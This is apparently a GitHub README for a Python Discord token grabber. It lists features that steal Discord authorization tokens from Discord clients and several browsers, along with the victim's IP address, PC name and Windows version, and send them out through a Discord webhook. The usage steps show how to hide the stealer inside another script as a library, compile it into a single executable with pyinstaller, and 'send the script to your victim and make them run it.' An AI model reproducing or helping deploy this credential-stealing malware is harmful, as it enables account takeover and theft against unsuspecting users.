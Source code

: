<h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.</p>

This version of the grabber only supports **Windows**.

# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example")

<br>

# How to use
 1. Create a webhook on your Discord server.
 2. Change the 'WEBHOOK_URL' variable value to your Discord webhook URL in [token_grabber.py](token_grabber.py)
<br>
 2.5. add it to another script (preferably as a library)
 example:
 ```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.main()
```
2.75. Compile the script using pyinstaller
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- added SEND_IP and SEND_PC_INFO options
- added EMBED to MODE (not ready to use yet)
- added EXPERIMANTAL bool
- added getIP() function
- added getUserInfo() function
```
